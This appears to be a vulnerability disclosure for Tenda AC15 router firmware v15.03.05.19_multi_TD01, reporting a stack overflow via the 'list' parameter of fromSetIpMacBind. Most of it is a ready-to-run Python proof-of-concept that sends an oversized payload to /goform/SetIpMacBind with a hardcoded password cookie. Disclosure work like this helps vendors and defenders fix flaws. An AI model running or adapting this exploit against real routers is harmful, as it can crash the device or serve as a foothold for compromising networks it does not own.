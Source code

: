 Tenda AC15 v15.03.05.19_multi_TD01 has a stack overflow via the list parameter in the fromSetIpMacBind function.

```
from pwn import *
import requests

payload = b'a'*0x10000

url = "http://192.168.100.254/goform/SetIpMacBind"

cookie = {"Cookie":"password=12345"}
data = {"bindnum": "1","list": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
